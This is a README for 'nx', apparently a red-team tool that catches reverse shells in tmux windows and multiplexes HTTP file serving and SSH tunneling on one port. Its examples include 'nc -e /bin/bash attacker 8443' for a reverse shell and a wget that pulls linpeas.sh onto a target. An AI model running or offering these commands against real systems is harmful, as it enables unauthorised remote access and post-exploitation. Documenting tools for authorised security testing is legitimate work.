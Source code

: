 # nx

[n]etcat + tmu[x] - listen on a port and forward the stream to a tmux session

All-in-One:
- reverse shell
- http server
- port-forwarding-only ssh server

## Prerequisites

- tmux - required for session/window management
- socat - required for TTY handling and keystroke forwarding

## Installation

### From source
```bash
git clone https://github.com/audibleblink/nx
cd nx
go build -o nx .
./nx --install-plugins  # Install bundled plugins
```

### Using go install
```bash
go install github.com/audibleblink/nx@latest
nx --install-plugins  # Install bundled plugins
```

The `--install-plugins` flag copies bundled plugins (like `auto.sh`) to `~/.config/nx/plugins/`. This only needs to be run once after installation.

## Usage

1. start a listener
```sh
nx -vp 9090
```

2. from a different machine, initiate the reverse shell
3. nx catches the connection then starts a tmux window in the `nx` session, and starts the shell there

```
Usage:
  nx [OPTIONS]

Application Options:
      --auto           Attempt to auto-upgrade to a tty (deprecated: use --exec auto)
      --exec=          Execute plugin script on connection
      --install-plugins Install bundled plugins to config directory
  -i, --host=      Interface address on which to bind (default: 0.0.0.0)
  -p, --port=      Port on which to bind (default: 8443)
  -t, --target=    Tmux session name (default: nx)
  -v, --verbose    Debug logging
      --sleep=     adjust if --auto is failing (default: 500ms)
  -d, --serve-dir= Directory to serve files from over HTTP
  -s, --ssh-pass=  SSH password (empty = no auth)
```

## Features

- **Plugin system**: Use `--exec <plugin>` to run custom scripts on connection
- **Auto-upgrade to TTY**: Use `--exec auto` (or deprecated `--auto` flag) to automatically upgrade your shell to a TTY
- **Protocol multiplexing**: Serve files over HTTP and SSH tunneling on the same port as shell connections
- **SSH tunneling**: Support for local (-L) and remote (-R) port forwarding with optional password authentication
- **XDG runtime paths**: Automatically uses XDG runtime directory for socket location
- **Signal handling**: Properly handles signals and performs cleanup

## Plugin System

nx supports a plugin system for executing custom commands when a new connection is established. Plugins are shell scripts stored in `~/.config/nx/plugins/`.

### Creating Plugins

1. Create a shell script in `~/.config/nx/plugins/<name>.sh`
2. Make it executable: `chmod +x ~/.config/nx/plugins/<name>.sh`
3. Use the plugin: `nx --exec <name>`

### Plugin Format

Plugins are simple shell scripts with these features:
- Lines starting with `#` are ignored (comments)
- Empty lines are ignored
- All other lines are executed as tmux `send-keys` commands in the reverse shell

### Example Plugin

```bash
#!/bin/bash
# Custom upgrade script
echo "Setting up environment..."
export PATH=/usr/local/bin:$PATH
whoami
```

### Built-in Plugins

- **auto**: TTY upgrade script

## Protocol Multiplexing

nx can serve files over HTTP and provide SSH tunneling on the same port as shell connections. This allows you to host files, create SSH tunnels, and catch shells on a single port.

### HTTP File Serving

Enable file serving by specifying a directory with the `-d` or `--serve-dir` flag:

```bash
# Start nx with file serving enabled
nx -p 8443 -d ./files -v

# Shell connections still work normally
nc -e /bin/bash attacker 8443

# From target machine - download files
wget http://attacker:8443/linpeas.sh

```


## SSH Tunneling

nx supports SSH tunneling for port forwarding without providing shell access.

### SSH Usage Examples

```bash
# Start nx with SSH tunneling (no password)
nx -p 8443 -v

# Start nx with SSH password authentication
nx -p 8443 -s mypassword -v

# From client - Local port forwarding (-L)
ssh -L 8080:internal-server:80 -N user@attacker -p 8443

# From client - Remote port forwarding (-R)  
ssh -R 9090:localhost:22 -N user@attacker -p 8443
```


## How?

unix domain sockets mannn

## ToDo
- [x] ~~maybe a plugin system for sending commands on connection~~ ✅ **DONE**: Implemented plugin system with `--exec` flag
- [x] ~~some mechanism to auto-upgrade the shell to a TTY via tmux-send-keys or sourcing a script that just adds the keybinds, so that it's up to the user to fire off the upgrade~~ ✅ **DONE**: Auto-upgrade via `--exec auto`
- [x] ~~alternatively, multiplex the connection to allow `curl | sh` from the same port~~ ✅ **DONE**: Protocol multiplexing with `--serve-dir`
- [x] ~~multiplexing listener~~ ✅ **DONE**: HTTP/shell protocol detection on same port
- [x] ~~super simple chisel-light functionality~~ ✅ **DONE**: SSH tunneling with local/remote port forwarding
- [x] facilitate installing plugins dir to xdg
- [ ] handle stdio with the socket directly with `nx`, eliminating the need for `socat`

